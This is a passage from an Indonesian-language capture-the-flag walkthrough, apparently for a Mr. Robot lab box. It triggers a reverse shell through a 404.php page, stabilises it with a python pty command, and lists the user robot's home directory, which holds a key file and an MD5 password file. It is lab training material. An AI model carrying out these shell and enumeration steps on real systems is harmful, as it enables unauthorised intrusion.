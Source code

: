 ```
http://10.10.11.154/404.php
```

🎉 Boom! Reverse shell sebagai user `www-data` akan terbuka.

---

## 🛠️ 10. Stabilkan Shell (Opsional)

Untuk kenyamanan, stabilkan shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

# ✅ PART 2 – USER PRIVILEGE ESCALATION 🧗‍♂️

### 🎯 Target:

* Dapatkan akses ke user `robot`
* Ambil `key-2-of-3.txt`

---

## 🔍 1. Cari User-User yang Ada di Sistem

Dari reverse shell kamu, cek isi `/home/`:

```bash
ls /home/
```

📌 Output:

```
robot
```

➡️ Artinya ada user bernama `robot`. Kita akan coba masuk ke akunnya.

---

## 🔍 2. Cek Isi Home User `robot`

```bash
ls -la /home/robot
```

📌 Output:

```
-r-------- 1 robot robot 33 Nov 13 2019 key-2-of-3.txt
-r-x------ 1 robot robot 39 Nov 13 2019 password.raw-md5
```
